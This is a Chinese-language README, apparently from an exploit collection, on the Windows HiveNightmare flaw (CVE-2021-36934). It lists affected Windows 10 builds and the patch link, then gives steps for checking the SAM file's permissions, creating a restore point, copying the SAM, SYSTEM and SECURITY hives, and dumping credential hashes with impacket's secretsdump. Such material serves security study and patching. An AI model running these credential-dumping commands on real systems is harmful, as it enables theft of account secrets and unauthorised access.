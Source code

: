 ### CVE-2021-36934

#### 描述

Windows Elevation 漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10 | x64/x86/ARM64 | 1809 |  |  |
| Windows 10 | x64/x86/ARM64 | 1909 | |        |
| Windows 10 | x64/x86/ARM64 | 2004 | | &#10004; |
| Windows 10 | x64/x86/ARM64 | 20H2 | | |
| Windows 10 | x64/x86/ARM64 | 21H1 | | |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-36934
```

#### 利用方式

编译环境

- VS2019（V140）X64 Release
- VS2019（V140）X86 Release

测试系统Windows 10 2004 X64

使用命令来查看目标系统是否是易受攻击的

```
icacls C:\windows\system32\config\sam
```

当出现如下图所示就表明是易受攻击的机器

![image-20210905164036648](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_1.png)

然后需要开启系统还原，右键“此电脑->属性”，点击“系统保护->配置->启用系统保护->应用->确定”

![image-20210905164831213](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_2.png)

然后创建系统还原点

![image-20210905164912574](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_3.png)

接着使用EXP即可获取到系统的SAM，SYSTEM和SECURITY文件

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_4.gif)

最后使用impacket项目进行登录即可

```
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket/examples 
python3 secretsdump.py -sam SAM-2021-07-11 -system SYSTEM-2021-07-11  -security SECURITY-2021-07-11 LOCAL
```



#### 代码来源

- [GossiTheDog](https://github.com/GossiTheDog/HiveNightmare)
